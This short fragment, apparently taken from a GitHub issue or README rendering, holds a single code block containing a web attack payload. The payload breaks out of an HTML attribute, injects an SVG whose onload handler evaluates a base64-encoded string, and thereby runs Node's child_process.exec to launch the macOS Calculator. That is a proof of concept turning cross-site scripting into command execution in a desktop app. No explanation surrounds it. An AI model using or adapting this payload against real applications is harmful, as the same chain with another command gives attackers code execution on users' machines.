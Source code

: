```"><svg/onload=top.eval(atob("cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ29wZW4gLW4gL1N5c3RlbS9BcHBsaWNhdGlvbnMvQ2FsY3VsYXRvci5hcHAvQ29udGVudHMvTWFjT1MvQ2FsY3VsYXRvcicp"))>
ts
```
